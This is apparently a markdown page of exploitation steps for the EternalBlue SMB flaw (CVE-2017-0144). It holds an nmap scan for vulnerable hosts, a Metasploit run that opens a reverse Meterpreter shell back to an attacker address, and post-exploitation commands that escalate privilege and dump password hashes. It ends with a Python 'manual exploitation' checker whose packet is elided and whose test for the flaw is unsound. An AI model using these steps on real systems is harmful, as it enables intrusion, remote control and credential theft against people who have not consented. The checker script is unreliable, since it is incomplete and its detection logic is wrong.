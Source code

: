 ### Vulnerability Details
**CVE:** CVE-2017-0144  
**Affected:** Windows SMB protocol  
**Type:** Remote code execution  
**CVSS:** 8.1 (High)

### Exploitation Steps

```bash
# 1. Scan for vulnerable systems
nmap -p 445 --script smb-vuln-ms17-010 192.168.1.0/24

# 2. Use Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
check  # Verify vulnerability
exploit

# 3. Post-exploitation
# Once meterpreter session obtained
getsystem
hashdump
```

### Manual Exploitation

```python
#!/usr/bin/env python3
# eternalblue_check.py - Check for MS17-010 vulnerability

import socket
import struct

def check_ms17_010(target_ip):
    """Check if target is vulnerable to MS17-010"""
    
    port = 445
    timeout = 5
    
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        sock.connect((target_ip, port))
        
        # Send SMB negotiation packet
        negotiate = (
            b"\x00\x00\x00\x2f"  # NetBIOS Session header
            b"\xff\x53\x4d\x42"  # SMB header
            # ... (full packet structure)
        )
        
        sock.send(negotiate)
        response = sock.recv(1024)
        
        # Check response for vulnerability indicators
        if b"NT LM 0.12" in response:
            print(f"[+] {target_ip} may be vulnerable to MS17-010")
            return True
        else:
            print(f"[-] {target_ip} does not appear vulnerable")
            return False
```